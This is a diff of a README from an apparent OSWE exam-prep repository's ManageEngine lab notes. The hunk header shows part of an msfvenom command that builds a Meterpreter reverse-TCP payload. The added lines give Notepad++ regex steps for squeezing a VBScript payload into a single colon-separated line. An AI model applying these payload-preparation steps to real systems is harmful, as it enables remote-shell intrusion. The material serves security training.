

Before and after one commit to solimanalmansor/OSWE-Prep, a Markdown page: OSWE-Labs/ManageEngine/README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/OSWE-Labs/ManageEngine/README.md
+++ b/OSWE-Labs/ManageEngine/README.md
@@ -30,4 +30,7 @@ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.
 ```
 Match and replace roles in Notepad++ (to make the payload oneliner):
 
--
+- ` _.*?\n` with `✅ matches newline` option enabled (remove continuation lines)
+- `    ` (remove tabs)
+- match `\n` replace with `:` (remove newline and replace it with `:` which is the VB script command terminator) **If you copied from the terminal, match on `\n\r` instead of jsut `\n`**
+- mach `::` replace with `:` **repeat this multiple times** (remove consecutive conlons and replace it by only one colon)
````
